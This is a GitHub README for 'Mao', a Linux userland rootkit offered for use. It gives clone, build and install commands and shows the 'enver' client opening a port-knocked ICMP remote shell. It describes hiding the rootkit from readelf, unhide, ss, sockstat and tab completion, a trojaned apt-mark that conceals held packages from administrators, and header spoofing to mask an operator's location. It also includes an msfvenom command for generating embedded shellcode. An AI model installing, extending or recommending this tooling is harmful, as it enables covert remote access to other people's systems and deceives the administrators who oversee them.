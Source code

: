 # Mao
A protracted people's rootkit.<br><br>
<img src="https://i.redd.it/4pwkibrp0uq91.jpg" />

Another x86_64 userland rootkit for Linux. 
---

Like in real life, Mao took a lot of inspiration from <a href="https://github.com/mephistolist/hoxha">Hoxha</a>. While his style differed from <a href="https://github.com/mephistolist/tito">Tito</a>, they both integrated elements of Capitalism into their economies. At the same time, Mao had his own theory and legacy. For this reason you may find elements of the two previously mentioned projects, but a great deal of improvements and changes. Better mutation, anti-forensics and better hiding on the system. Again, I will probably hold off on going in-depth on this project until after it publication. 

You will need to install one dependency in order to build this code:

```
sudo apt install libreadline-dev
```

You can then download make and install with the following:

```
git clone https://github.com/mephistolist/Mao.git; cd Mao; make; make install;

```

After this you should have a binary called 'enver', you cannot see in the project directory. However, you can type 'enver' with the ip address of where you have this installed to connect:

```
./enver 127.0.0.1
[*] Initiating knock sequence. Please wait.
[*] ☭ Political power grows out of the barrel of a gun. ☭
[+] ICMP shell connected. Type commands (type 'exit' to quit):
icmp-shell>
```

New Features
---

The enver client taken from <a href="https://github.com/mephistolist/hoxha">Hoxha</a> has the ability to spoof X-Forwarded-For, X-Originating-IP, X-Remote-IP and X-Remote-Addr headers. In the event someone was to intercept your traffic and you have spoofed your ip via a vpn or proxy, these headers give away your true location, or confuse someone further if also spoofed. 

You will also notice that both enver and hoxha have checks to ensure that the hex value of 0xDEADBEEF is passed. So even after the port-knocking checks and passwords, that will be need to be passed with each packet to ensure the connections stays in place.

Unlike with <a href="https://github.com/mephistolist/hoxha">Hoxha</a>, we will be hidden from readelf, unhide, sockstat, ss and tab completion. Though you may need to exit SSH and reconnect after installing to see the hidding from tab completion worker.

To prevent overwriting of packages that would fool an administrator, we will also install a custom version of apt-mark that will not show packages we have put on hold. 

Like <a href="https://github.com/mephistolist/tito">Tito</a>, we will use an ICMP shell, but the shell with Tito used older functions that could not allow for static linking. The ICMP shell with Mao will allow for static linking.

A lot of new features were added to the sections for mutation and antibugging, 

Devlopment Notes
---

If you make changes to this code, you will need to regenerate its binary data with msfvenom:

```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```

Then convert that to base64:

```
cat shellcode.bin | base64 -w0
```

Then replace it with the base64 inside libexec.c and recompile to apply your changes. 

If you want to make changes to the binaries in the 'tools' directory, you can grep for 'Mao' in the source code to see where we have made our edits:

```
# grep -nr Mao references/
references/sockstat.c:299:    /* --- Mao Handler --- */
references/readelf.c:1977:	/* Mao handler */  
references/ss.c:2469:    	/* Mao handler to hide ICMP/ICMPv6 sockets entirely */
references/apt-mark.cc:368:    // Mao - packages to filter out
```

The README file in the 'references' directory will have further documentation.

This has currently been tested on Debian Forky using kernel 6.16.7.
